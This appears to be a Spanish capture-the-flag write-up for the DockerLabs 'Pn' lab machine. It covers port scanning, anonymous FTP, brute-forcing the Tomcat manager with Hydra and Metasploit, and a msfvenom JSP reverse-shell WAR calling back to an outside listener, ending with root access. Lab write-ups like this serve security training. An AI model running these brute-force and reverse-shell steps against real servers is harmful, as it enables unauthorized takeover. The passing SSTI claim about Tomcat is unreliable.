


# Pn - DockerLabs

## Reconocimiento

Escaneemos la maquina con nmap para ver que servicios tiene abiertos.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2

PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

Vemos que tiene abierto el puerto 21 (FTP) y el puerto 8080 (HTTP).

```bash
nmap -sCV -p21,8080 172.17.0.2

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19  2024 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.88
```

Vemos que usa vsftpd 3.0.5 y Apache Tomcat 9.0.88

Veamos con whatweb que tecnologías usa la web:

```bash
whatweb 'http://172.17.0.2:8080/'

http://172.17.0.2:8080/ [200 OK] Country[RESERVED][ZZ], HTML5, IP[172.17.0.2], Title[Apache Tomcat/9.0.88]
```

Vemos que usa Apache Tomcat 9.0.88, lo que nos da una pista de que podemos tener una vulnerabilidad de SSTI (Server Side Template Injection).

Primero veamos que directorios tiene la web, para ello vamos a usar gobuster:

```bash
gobuster dir -u http://172.17.0.2:8080 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701

/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Vamos a hacer loggin anonimo en el FTP para ver que archivos tiene:

```bash
ftp 172.17.0.2 
```

Nos metemos como usuario anónimo y vemos que tiene un archivo llamado tomcat.txt, lo descargamos y vemos que contiene:

```
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Tenemos el usuario tomcat, vamos a hacer fuerza bruta para ver si podemos obtener la contraseña del usuario tomcat, para ello vamos a usar hydra:

```bash
hydra -l tomcat -P /usr/share/wordlists/rockyou.txt -f 172.17.0.2 -s 8080 http-get /manager -t 20 -I

[8080][http-get] host: 172.17.0.2   login: tomcat   password: 123456789
```

Realmente esta no es la contraseña, lo que significa que nos han bloqueado por hacer demasiados intentos.

He probado fuerza bruta y metasploit y no he conseguido obtener la contraseña del usuario tomcat, así que vamos a intentar otra cosa.

```
[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:admin (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:manager (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:root (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:s3cret (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:vagrant (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:QLogic66 (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:password (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:Password1 (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:changethis (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:r00t (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:toor (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:password1 (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:j2deployer (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:OvW*busr1 (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:kdsxc (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:owaspba (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:ADMIN (Incorrect)

[-] 172.17.0.2:8080 - LOGIN FAILED: tomcat:xampp (Incorrect)
```

Al final, la contraseña era una pequeña variación de la contraseña que habíamos probado, la contraseña correcta es "s3cr3t".





Vamos a generar un payload para obtener una reverse shell, para ello vamos a usar msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.19 LPORT=443 -f war > shell.war
```

Nos ponemos en escucha en el puerto 443 para recibir la reverse shell:

```bash
nc -nlvp 443
```

Ahora hacemos un tratamiento TTY para que la shell sea más usable:

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

Y ya estamos como root

```bash
root@c76ea434e4d6:/# id
uid=0(root) gid=0(root) groups=0(root)
```

No tenemos ningún archivo interesante, no había mas usuarios.